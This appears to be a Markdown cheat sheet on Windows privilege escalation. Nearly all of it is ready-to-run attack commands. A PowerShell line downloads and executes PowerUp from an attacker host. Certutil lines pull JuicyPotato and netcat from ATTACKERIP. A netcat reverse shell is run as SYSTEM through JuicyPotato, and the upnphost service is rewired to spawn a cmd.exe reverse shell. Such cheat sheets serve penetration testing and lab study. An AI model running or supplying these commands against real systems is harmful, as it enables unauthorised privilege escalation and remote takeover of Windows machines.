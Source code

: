## Enumeration

### WinPeas

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe


```
winPEAS.exe -a
```


### PowerUP

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

```
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKERIP/PowerUp.ps1');Invoke-AllChecks"
```

### MSF enumeration

```
//weak services permissions
exploit/windows/local/service_permissions

//Always installed elevated
exploit/windows/local/always_install_elevated

//Unattend
post/windows/gather/enum_unattend`
```

## Exploits

### Juicy potato
https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

Check if users has the following permissions `SeImpersonate` or `SeAssignPrimaryToken` using the following command:

```
whoami /priv
```
![image](4a4d96decced0b64fbb826574627e469.png)

ATTACKER MACHINE

```
nc -lvp 1340
```
VICTIM MACHINE
```
// Download juicy potato binary
certutil -urlcache -split -f http://ATTACKERIP/juicypotato.exe juicypotato.exe

//Download nc binary
certutil -urlcache -split -f http://ATTACKERIP/nc.exe nc.exe 

//Create a bat file that will later execute with juicy potato
echo c:\Users\Public\Documents\nc.exe -e cmd.exe ATTACKERIP 1340 > rev.bat

//call the revshell as system
juicypotato.exe -l 1340 -t * -p c:\Users\Public\Documents\rev.bat

```

### Windows XP SP1 is known to be vulnerable to PE in upnphost. 

```
VICTIM MACHINE
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost

// If it fails because of a missing dependency, run the following:
sc config SSDPSRV start= auto
net start SSDPSRV
net start upnphost

ATTACKER MACHINE
nc -lvpn 1234
```

### WINDOWS 10 before build 17134 (tested on 14393)

```
use windows/local/ms16_075_reflection_juicy
```
